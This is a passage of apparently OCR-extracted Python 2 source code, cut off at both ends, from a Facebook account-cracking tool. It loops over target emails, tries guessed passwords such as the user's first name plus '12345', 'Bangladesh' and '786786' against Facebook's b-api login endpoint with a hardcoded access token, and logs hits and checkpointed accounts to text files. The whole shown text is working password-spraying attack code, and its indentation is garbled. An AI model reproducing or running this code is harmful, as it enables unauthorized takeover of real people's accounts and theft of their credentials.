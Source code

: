 				oke.write('\n   [OK] '+em+' • '+pw)
				oke.close()
				oks.append(em)
			else :
				if 'www.facebook.com' in xo['error_msg']:
					print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pw
					cek = open('done/indo.txt', 'a')
					cek.write('\n   [CP] '+em+' • '+pw)
					cek.close()
					CP.append(em)
				else:
					pw2 = v['first_name'].lower()+'12345'
                   	 		data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(em)+"&locale=en_US&password="+(pw2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                    			xo = json.load(data)
                    			if 'access_token' in xo:
                        			print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pw2
                        			oke = open('done/indo.txt', 'a')
                        			oke.write('\n   [OK] '+em+' • '+pw2)
                       				oke.close()
                       				oks.append(em)
              				else :
                      				if 'www.facebook.com' in xo['error_msg']:
                            				print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pw2
                            				cek = open('done/ARST.txt', 'a')
                            				cek.write('\n   [CP] '+em+' • '+pw2)
                            				cek.close()
                           				CP.append(em)
						else:
							pw3 = 'Bangladesh'
                            				data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(em)+"&locale=en_US&password="+(pw3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                            				xo = json.load(data)
                            				if 'access_token' in xo:
                                				print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pw3
                                				oke = open('done/ARST.txt', 'a')
                                				oke.write('\n   [OK] '+em+' • '+pw3)
                                				oke.close()
                                				oks.append(em)
                           				else :
                                				if 'www.facebook.com' in xo['error_msg']:
                                    					print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pw3
                                    					cek = open('done/ARST.txt', 'a')
                                    					cek.write('\n   [CP] '+em+' • '+pw3)
                                    					cek.close()
                                    					CP.append(em)
								else:
									pw4 = '786786'
                                    					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(em)+"&locale=en_US&password="+(pw4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                                    					xo = json.load(data)
                                    					if 'access_token' in xo:
                                        					print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pw4
                                        					oke = open('done/ARST.txt', 'a')
                                        					oke.write('\n   [OK] '+em+' • '+pw4)
                                        					oke.close()
                                        					oks.append(em)
                                    					else :
                                        					if 'www.facebook.com' in xo['error_msg']:
                                            						print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pw4
                                            						cek = open('done/ARST.txt', 'a')